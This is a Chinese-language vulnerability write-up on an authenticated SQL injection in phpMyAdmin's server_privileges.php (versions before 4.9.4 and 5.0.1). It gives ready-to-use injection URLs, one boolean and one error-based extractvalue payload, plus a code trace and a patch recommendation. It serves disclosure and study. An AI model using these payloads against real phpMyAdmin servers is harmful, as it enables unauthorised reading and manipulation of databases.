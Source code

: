 **0x01 简介**

phpMyAdmin 是一个以PHP为基础，以Web-Base方式架构在网站主机上的MySQL的数据库管理工具，让管理者可用Web接口管理MySQL数据库。借由此Web接口可以成为一个简易方式输入繁杂SQL语法的较佳途径，尤其要处理大量资料的汇入及汇出更为方便。

**0x02 漏洞概述**

用户界面SQL执行语句存在可控变量，且未对可控参数进行过滤直接拼接。可造成低权限用户越权执行SQL指令。

**0x03 影响版本**

**前提：已知一个用户名密码**

phpMyAdmin 4 < 4.9.4

phpMyAdmin 5 < 5.0.1

**0x04 漏洞复现**

简单总结流程：

页面位置server_privileges.php；

设置变量ajax_requests为true；

设置变量validate_username 为真值；

设置变量username 为我们拼接的注入语句。



构造payload：

- 

```
http://192.168.209.139:8001/server_privileges.php?ajax_requests=true&validate_username=1&username=1%27or%201=1%20--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```



（token和其余参数会在访问页面的时候自动提供）

我们查看后端收到的数据，可以看到SQL已经成功拼接。

![](./img/49.png)

执行完毕后程序只会告知SQL是否执行成功，失败会报错，因此此处我们可以利用报错注入。

构造payload：

- 

```
http://192.168.209.139:8001/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

结果如下，可以看到已经成功执行了我们注入的指令。  

![](./img/50.png)  

**0x05 漏洞分析**

定位到文件libraries/server_privileges.lib.php，此处就是SQL注入存在点，username和validate_username都可控,我们往上回溯定位if所在的函数。

![](./img/51.png) 

可以看到if处于PMA_getExtraDataForAjaxBehavior函数内。下一步使用phpsotorm快捷键ctrl+B定位到触发此函数的点。

![](./img/52.png) 

跳转到文件server_privileges.php可以看到$extra_data触发了此函数，处于一个if内，下一步快捷键ctrl+shift+F全局搜索变量is_ajax_request，看看是否可控让其为真值。

![](./img/53.png) 

跳转到文件libraries/common.inc.php这里有可控变量ajax_request只要给它附true就可以返回true了。

![](./img/54.png) 

**0x06 修复方式**

更新官方最新补丁

**参考链接：**

https://nvd.nist.gov/vuln/detail/CVE-2020-5504

https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/tree/master/phpMyadmin/CVE-2020-0554